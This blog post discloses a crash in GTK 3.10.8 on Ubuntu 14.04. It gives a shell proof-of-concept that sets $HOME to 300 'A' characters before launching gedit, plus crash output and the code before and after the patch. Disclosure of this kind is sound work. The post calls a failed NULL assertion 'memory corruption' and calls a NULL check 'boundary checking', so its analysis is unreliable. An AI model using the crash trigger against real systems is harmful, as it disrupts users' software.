 ```yaml
---
layout: post
title:  "LibGTK 3.10.8 - Memory Corruption"
date:   2018-09-19 03:39:03 +0700
categories: [security, corruption]
---
```


Vulnerability Details
---------------------
This time I will explained in details about bug / vuln found in GTK library. This bug was found few years back. It is a memory 
corruption on the filename handling upon running 'gedit' editor. Our target OS here is Ubuntu 14.04 LTS. The bug can be triggered
with a simple bash script:
```
# Proof-of-Concept - @zeifan
#!/bin/sh
echo "\nSetting the env var for HOME"
export HOME=`perl -e 'print "\x41"x300'`
echo "\nEnable core dump"
ulimit -c unlimited
echo "\nRun gedit editor to trigger the bug"
gedit
```
How does the memory corruption triggered here? First thing we need to understand how GTK library works. GTK is a multi-platform 
toolkit / library that used for creating graphical user interfaces. Gedit (text editor built for GNOME desktop). To install Gedit, it 
required gtksourceview library to extend the GTK+ text functions to include syntax highlighting. In order to install gtksoureview, it 
needs another dependency, GTK+ (i just called it GTK here) library. If we see the relation (exclude unrelated dependencies) here, 
Gedit uses a lot of GTK library for its interface purposes. 

Back to the question above, how do we achieve memory corruption here? It simple, in the bash script provided above, at first we set 
our env for $HOME by creating 300 bytes of 'A'. If we check with command "env | grep HOME", we should be able to see the $HOME path 
now are loaded with 300 character of 'A'. Gedit can be execute via terminal (load by GTK library) and provides options. Gedit can be 
execute without user permission or any specific folder. 

Beginning of execution, Gedit will grab the current $HOME variable (by default)
and execute. During execution, GTK library will takes place to execute is dependencies by parsing the filename on that environment 
variable. Upon grabbing the variable, it will check the length of filename and if it is failed to check the length, memory corruption 
will trigger. We dig out the vulnerable GTK+ library which is on version 3.10.8 (Ubuntu 14.04). 

Upon crashed, we can see the GTK print out the error and lead us to the vulnerable code. The code can be found on the gtkrecentmanager.c at the line 617. The filename 
handling can only handle until 256 bytes and if we put 260 bytes, the bug can be trigger from there. 
```
	g_assert (priv->filename != NULL);		// triggered the memory corruption. it does not even handle the proper length of filename
	file = g_file_new_for_path (priv->filename);
	error = NULL;
	priv->monitor = g_file_monitor_file (file, G_FILE_MONITOR_NONE, NULL, &error);
```
Example scenario to trigger the bug:
```
john@autobot:~$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 14.04.4 LTS
Release:		14.04
Codename:		trusty
john@autobot:~$ ./code.sh 

Setting the env var for HOME

Enable core dump

Run gedit editor to trigger the bug

(gedit:16877): Gtk-CRITICAL **: Unable to create user data directory 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/.local/share' for storing the recently used files list: File name too long
**
Gtk:ERROR:/build/gtk+3.0-Poe67P/gtk+3.0-3.10.8/./gtk/gtkrecentmanager.c:617:gtk_recent_manager_set_filename: assertion failed: (priv->filename != NULL)
Aborted (core dumped)
john@autobot:~$
```
I noticed the bug has been fixed in the GTK+ library version 3.20.9 which is shipped along in the Ubuntu 16.04 LTS. Testing out the 
proof of concept on the latest Ubuntu 16.04 no longer trigger the bug. Example patched:
```
john@decepticon:~$ lsb_release -a
No LSB modules are available.
Distributor ID:	Ubuntu
Description:	Ubuntu 16.04.1 LTS
Release:		16.04
Codename:		xenial
john@decepticon:~$ ./code.sh 

Setting the env var for HOME

Enable core dump

Run gedit editor to trigger the bug

(gedit:16877): Gtk-CRITICAL **: Unable to create user data directory 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/.local/share' for storing the recently used files list: File name too long
**
... run as usual here ...
```
How did the developer patch their code? Since we have the source code for version 3.20.9, we can perform some code diffing to see how 
the patch is done. Developer added if-else statement on the same code (affected code) to perform boundary checking on filename before 
it gets executed. Patched code as in:
```
	if (priv->filename != NULL) // add checking on the filename to avoid memory corruption here.
    {
    	file = g_file_new_for_path (priv->filename);
        error = NULL;
    	priv->monitor = g_file_monitor_file (file, G_FILE_MONITOR_NONE, NULL, &error);
```
Well that's all for today. If you can exploit this, it will be more fun \0/ Happy hunting :)
